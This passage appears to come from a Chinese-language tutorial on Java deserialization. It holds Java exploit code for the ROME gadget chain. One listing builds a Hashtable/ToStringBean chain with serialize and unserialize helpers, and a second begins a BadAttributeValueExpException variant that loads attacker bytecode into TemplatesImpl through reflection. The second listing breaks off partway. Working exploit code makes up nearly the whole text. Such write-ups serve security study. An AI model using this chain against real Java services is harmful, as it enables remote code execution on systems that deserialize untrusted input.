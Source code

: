 ```plain

        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean,"123");

        Field field = toStringBean.getClass().getDeclaredField("_obj");
        field.setAccessible(true);
        field.set(toStringBean,templates);
//        serialize(hashtable);
        unserialize("ser.bin");
    }




    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## EXP(BadAttributeValueExpException)：

CC 里面调用 toString 的方法

```plain
package EXPROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import org.apache.commons.collections4.functors.ConstantTransformer;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;

public class RomeBdAttribute {
    public static void setValue(Object obj,String name,Object value)throws Exception {
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXPROME/Demo.class"));
        byte[][] codes = {code};
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        setValue(templates,"_name","Ic4F1ame");
        setValue(templates, "_tfactory", new TransformerFactoryImpl());
```